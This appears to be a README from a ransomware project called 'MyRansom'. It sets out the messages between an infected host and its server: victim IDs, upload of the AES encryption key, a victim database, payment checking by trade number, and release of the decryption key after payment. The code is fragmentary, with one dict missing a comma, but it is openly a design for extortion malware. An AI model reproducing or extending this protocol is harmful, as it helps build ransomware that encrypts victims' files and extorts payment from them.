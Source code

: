 # Args of MyRansom

## Infected Host

### init

```python
post_data = {
    'id': uuid.uuid1().hex
}
```

### aes key

```python
self.aes_key = self.enc_key()
post_data = {
    'id': self.id,
    'aes_key': self.aes_key
}
```

### paid

```python
post_data = {
    'id': self.id,
    'aes_key': self.aes_key,
    'ransom': True,
    'out_trade_no': out_trade_no
}
```

## Server

### database

```sql
    ID         VARCHAR(32)    NOT NULL,
    INFTIME    VARCHAR(100)    NOT NULL,
    RANSOM     BOOLEAN         NOT NULL,
    AESKEY     VARCHAR(100)    NOT NULL
```

### viclist

```python
viclist = [
    {
        'id': victim_id,
        'inftime': time.ctime()
        'ransom': False,
        'aes_key': aes_key
    }
]
```

### verify

```python
if not check_trade(out_trade_no):
    response = {
        'id': victim_id,
        'status': 'failure'
    }
```

### paid

```python
if check_trade(out_trade_no):
    aes_key = dec_key()
    response = {
        'id': victim_id,
        'aes_key': aes_key,
        'status': 'success'
    }
```

## Front-end
